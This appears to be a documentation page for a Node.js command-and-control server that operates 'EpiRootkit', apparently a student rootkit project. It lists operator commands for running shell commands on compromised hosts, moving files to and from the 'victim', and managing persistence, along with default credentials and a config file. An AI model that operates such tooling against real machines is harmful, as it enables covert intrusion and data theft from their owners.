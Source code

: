 ```yaml
---
title: "Overview"
description: "C2 server architecture and capabilities"
icon: "dashboard"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 301
---
```


# Attacking Program Overview

Professional C2 (Command & Control) server built with Node.js providing CLI interface for managing EpiRootkit connections.

## Quick Start

```bash
# Install dependencies and start
cd attacking_program
pnpm install
pnpm start

# Server output
# ✓ Server started on port 4444
# ✓ Web interface started on port 3000
```

## Architecture

### Core Components
- **CLI Interface**: Vorpal.js-based interactive command system
- **C2 Server**: TCP server handling rootkit connections on port 4444
- **Web Interface**: Express.js REST API with Socket.IO on port 3000
- **Client Manager**: Connection lifecycle and authentication management
- **Event System**: Real-time event handling and logging

### Technology Stack
- **Runtime**: Node.js 18+ with pnpm package manager
- **CLI Framework**: Vorpal.js for interactive commands
- **Web Server**: Express.js with Socket.IO for real-time updates
- **Encryption**: XOR cipher implementation (configurable)

## Core Features

### Client Management
```bash
ls                          # List connected clients
auth <client> <password>    # Authenticate with SHA-512 verification
status <client>             # Get comprehensive rootkit status
keepalive <client>          # Check connection health
```

### Remote Operations
```bash
exec <client> <command>                     # Execute shell commands
upload <client> <local> [remote]            # Upload files to victim
download <client> <remote> [local]          # Download files from victim
```

### Configuration Management
```bash
config <client>             # Interactive configuration menu
persist <client> [action]   # Manage persistence mechanisms
```

## Authentication System

**SHA-512 Password Authentication:**
1. C2 sends plaintext password via `auth` command
2. Rootkit hashes password and compares with stored hash
3. Session established with 1-hour timeout
4. Rate limiting: 5 attempts per 60 seconds

**Default Credentials:**
- Password: `password`
- Hash: `b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86`

## Configuration

### Server Settings (`config.env`)
```bash
C2_PORT=4444                    # C2 server port
WEB_PORT=3000                   # Web interface port
ENCRYPTION_KEY=0123456789abcdef0123456789abcdef  # 32-char hex key
ENABLE_ENCRYPTION=true          # XOR encryption toggle
PASSWORD_HASH=b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86
```


## Security Features

- **Authentication**: SHA-512 hashing with brute force protection
- **Encryption**: Optional XOR cipher for traffic obfuscation
- **Session Management**: Automatic timeout and cleanup
- **Access Control**: Commands require authentication
- **Connection Health**: Automatic stale client detection